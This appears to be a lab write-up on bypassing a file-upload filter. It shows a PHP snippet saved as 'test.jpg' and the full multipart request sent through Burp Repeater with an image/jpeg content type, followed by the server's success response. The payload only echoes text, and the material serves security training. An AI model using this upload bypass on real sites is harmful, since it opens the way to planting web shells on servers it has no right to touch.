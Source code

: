 `echo '<?php echo "This is not a real jpg image" ?>' > ./test.jpg`

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3389900069635376210896551091
Content-Length: 254
Origin: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
Referer: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------3389900069635376210896551091
Content-Disposition: form-data; name="fileToUpload"; filename="test.jpg" 📌
Content-Type: image/jpeg 📌

<?php echo "This is not a real jpg image" ?> 📌

-----------------------------3389900069635376210896551091--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:53:34 GMT
Server: nginx/1.4.6
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4060


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a> 📌                   </div>

[...]
```
